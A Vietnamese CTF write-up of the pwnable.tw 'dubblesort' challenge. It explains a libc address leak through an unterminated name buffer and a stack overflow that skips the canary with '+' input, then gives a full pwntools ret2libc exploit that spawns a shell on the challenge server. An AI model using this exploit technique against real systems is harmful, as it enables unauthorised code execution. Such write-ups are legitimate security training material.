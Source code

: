 **1. TÌm lỗi**

Dùng lệnh `file` kiếm tra:

```
dubblesort: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=12a217baf7cbdf2bb5c344ff14adcf7703672fb1, stripped
```

---> Mở bằng IDA ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  _BYTE *v4; // edi
  unsigned int i; // esi
  unsigned int j; // esi
  int result; // eax
  unsigned int v8; // [esp+18h] [ebp-74h] BYREF
  _BYTE v9[32]; // [esp+1Ch] [ebp-70h] BYREF
  char buf[64]; // [esp+3Ch] [ebp-50h] BYREF
  unsigned int v11; // [esp+7Ch] [ebp-10h]

  v11 = __readgsdword(0x14u);
  sub_8B5();
  __printf_chk(1, "What your name :");
  read(0, buf, 0x40u);
  __printf_chk(1, "Hello %s,How many numbers do you what to sort :");
  __isoc99_scanf("%u", &v8);
  v3 = v8;
  if ( v8 )
  {
    v4 = v9;
    for ( i = 0; i < v8; ++i )
    {
      __printf_chk(1, "Enter the %d number : ");
      fflush(stdout);
      __isoc99_scanf("%u", v4);
      v3 = v8;
      v4 += 4;
    }
  }
  sub_931(v9, v3);
  puts("Result :");
  if ( v8 )
  {
    for ( j = 0; j < v8; ++j )
      __printf_chk(1, "%u ");
  }
  result = 0;
  if ( __readgsdword(0x14u) != v11 )
    sub_BA0();
  return result;
}
```

- Đầu tiên, các biến được khai báo. v3 và v8 là các biến kiểu unsigned int, v4 là một con trỏ kiểu _BYTE, i và j là các biến kiểu unsigned int được sử dụng trong vòng lặp, result là biến kết quả kiểu int. v9 là một mảng kiểu _BYTE có độ dài 32 byte được sử dụng để lưu trữ các số cần sắp xếp, buf là một mảng kiểu char có độ dài 64 byte được sử dụng để lưu trữ tên người dùng nhập vào.

- Chương trình yêu cầu người dùng nhập tên bằng cách sử dụng hàm __printf_chk để in ra màn hình console. Sau đó, hàm read được sử dụng để đọc dữ liệu đầu vào từ bàn phím và lưu trữ vào biến buf. Ở đây biến `buf` chưa được khởi tạo nên lúc nhập vào sẽ không có nyte NULL và khi in ra sử dụng `%s` thì đến khi nào gặp byte null thì dừng.

- Tiếp theo, chương trình yêu cầu người dùng nhập số lượng số cần sắp xếp. Hàm __printf_chk được sử dụng để in ra màn hình console và hàm __isoc99_scanf được sử dụng để đọc dữ liệu đầu vào từ bàn phím và lưu trữ vào biến v8.

- Nếu v8 khác 0, chương trình sẽ yêu cầu người dùng nhập các số cần sắp xếp. Với mỗi số, hàm __printf_chk được sử dụng để hiển thị thông báo cho người dùng nhập số cần sắp xếp, hàm fflush được sử dụng để xóa bộ đệm đầu ra và hàm __isoc99_scanf được sử dụng để đọc dữ liệu đầu vào từ bàn phím và lưu trữ vào mảng v9. Lúc này có thể nhập quá số phần tử cho phép trong mảng -> Có lỗi bof.

- Sau khi các số đã được nhập, chương trình sẽ gọi hàm sub_931 để sắp xếp các số đó.

- Cuối cùng, kết quả sắp xếp sẽ được hiển thị trên màn hình console. Hàm puts được sử dụng để hiển thị thông báo cho người dùng và vòng lặp for được sử dụng để in ra các số đã sắp xếp.

Dùng lệnh `checksec` kiểm tra:

```
[*] '/mnt/d/CTF_Writeup/pwnable/dubblesort/dubblesort'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

Canyry cũng đã được bật.

**2. Ý tưởng**

- Ở lỗi đầu tiên có thể leak được địa chỉ libc và từ đó gọi hàm `system`

- Ở lỗi thứ 2 có thể tính toán địa chỉ `canary` cách mảng đó bao nhiêu và nhập dấu + thì địa chỉ canary sẽ được được nguyên.

**3. Khai thác**

Đặt breakpoint sau hàm `__printf_chk` thứ 2 để xem dữ liệu xung quanh biến buf như thế nào.

![vmmap.png](photo/vmmap.png)

Vì không truyền biến vào %s nên tìm ở địa chỉ cách 24 byte có chứa 1 địa chỉ trong dải libc nên khi mình mình nhập 24 byte rác thì sẽ có thể leak được.

```
payload = b'a'*24
r.sendafter(b'name :', payload)
r.recvuntil(b'a'*24)
leak = u32(r.recv(4))
log.info("leak address: " + hex(leak))
```

Thử chạy nên kiểm tra lại xem sao thì thấy có byte null ở libc

![check.png](photo/check.png)

Nên ghi đè 1 byte rác rồi sau đó trừ đúng giá trị byte rác đó sẽ được giá trị libc

```
payload = b'a'*25
r.sendafter(b'name :', payload)
r.recvuntil(b'a'*24)
leak = u32(r.recv(4))
log.info("leak address: " + hex(leak))
libc.address = leak - 0x61 - 0x1b0000
log.info("libc base: " + hex(libc.address))
```

 Ta thấy địa chỉ canary cách mảng v9 0x18 byte hay 24 byte. Nên nếu nhập dấu + ở vị trí 24 thì giá trị canary sẽ được giữ nguyên.

 Tiếp theo đi tìm địa chỉ hàm `system` và chuỗi `/bin/sh`:

 ```
 audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/pwnable/dubblesort$ readelf -s libc_32.so.6 | grep system
  1457: 0003a940    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/pwnable/dubblesort$ strings libc_32.so.6 -tx | grep "/bin/sh"
 158e8b /bin/sh
 ```

Như vậy đưa thứ tự 24 byte rác + '+' + 4 byte rác + system + bin_sh

Đặt breakpoint ở `ret` để xem có trả về sysrem không.

![ret.png](photo/ret.png)

Như vậy chương trình đã trả về hàm `system` như mình mong muốn. ta có script như sau:

 ```
from pwn import *

exe = ELF('dubblesort_patched', checksec = False)
#r = process(exe.path)
r = remote('chall.pwnable.tw', 10101)
libc = ELF('libc_32.so.6', checksec = False)

#input()
payload = b'a'*25
r.sendafter(b'name :', payload)
r.recvuntil(b'a'*24)
leak = u32(r.recv(4))
log.info("leak address: " + hex(leak))
libc.address = leak - 0x61 - 0x1b0000
log.info("libc base: " + hex(libc.address))

system = libc.sym['system']
log.info("system: " + hex(system))
bin_sh = next(libc.search(b'/bin/sh'))


r.sendlineafter(b'sort :', b'35')
for i in range(24):
  r.sendlineafter(b'number : ', b'1')
r.sendlineafter(b'number : ', b'+')
for i in range(8):
  r.sendlineafter(b'number : ', str(system))
r.sendlineafter(b'number : ', str(bin_sh))
r.sendlineafter(b'number : ', str(bin_sh))

r.interactive()
``` 

**4. Lấy flag**

